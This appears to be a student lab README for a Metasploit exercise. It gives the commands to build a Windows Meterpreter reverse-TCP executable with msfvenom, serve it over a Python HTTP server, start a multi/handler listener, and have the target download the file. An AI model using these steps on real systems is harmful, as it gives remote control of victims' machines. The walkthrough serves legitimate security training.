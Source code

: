 ```bash
+------------------------------------------------------------+

```
### PROGRAM:

Find the attackers ip address using ifconfig

### Output:

<img width="994" height="575" alt="image" src="https://github.com/user-attachments/assets/a925ee74-1c2d-4eb2-9d11-38c4722f0502" />


Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe```

### Output:

<img width="956" height="265" alt="image" src="https://github.com/user-attachments/assets/4cc8a637-28ca-4a43-8efe-4cc8ec866d22" />


Check the status of apache2 ```sudo apache2 status```

<img width="896" height="688" alt="image" src="https://github.com/user-attachments/assets/047c66e2-b3fe-44bf-b383-c62cd321d081" />

Start python server ```python3 -m http.server```

<img width="756" height="85" alt="image" src="https://github.com/user-attachments/assets/803f47d2-1d1e-4e43-a19b-2ed7286e4460" />

Invoke msfconsole:

Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

## Output 
<img width="1112" height="808" alt="image" src="https://github.com/user-attachments/assets/49d72604-4974-4be9-8af4-4744daef949d" />


Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 

<img width="955" height="496" alt="image" src="https://github.com/user-attachments/assets/3629eb2d-ede7-40ea-9a46-6633c21bcb66" />

<img width="871" height="314" alt="image" src="https://github.com/user-attachments/assets/18be0023-5d4c-4deb-b5d0-259c04d4a4b3" />

<img width="641" height="78" alt="image" src="https://github.com/user-attachments/assets/19b2bfe2-dd3c-4c8d-bc40-1b1d7c3c4247" />



On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.

